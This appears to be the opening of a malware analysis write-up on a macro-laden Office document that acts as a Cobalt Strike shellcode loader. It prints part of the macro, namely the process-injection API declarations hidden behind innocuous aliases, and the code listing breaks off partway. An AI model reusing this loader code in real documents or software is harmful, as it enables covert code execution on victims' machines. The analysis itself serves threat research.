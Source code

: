 # Summary 
I recently posted up a document that used Document Template Injection to pull down a maldoc containing a macro (https://twitter.com/_re_fox/status/1325809653100539904). The macro was ID’d as a Cobalt Strike shellcode loader.

The malicious macro is straightforward.  The shellcode is loaded into a buffer as a series of signed single byte ints. Then it sets up various API’s to achieve shellcode execution.

```vb
Private Type PROCESS_INFORMATION
    hProcess As Long
    hThread As Long
    dwProcessId As Long
    dwThreadId As Long
End Type

Private Type STARTUPINFO
    cb As Long
    lpReserved As String
    lpDesktop As String
    lpTitle As String
    dwX As Long
    dwY As Long
    dwXSize As Long
    dwYSize As Long
    dwXCountChars As Long
    dwYCountChars As Long
    dwFillAttribute As Long
    dwFlags As Long
    wShowWindow As Integer
    cbReserved2 As Integer
    lpReserved2 As Long
    hStdInput As Long
    hStdOutput As Long
    hStdError As Long
End Type

#If VBA7 Then
    Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
    Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
    Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
    Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
    Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
    Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
```
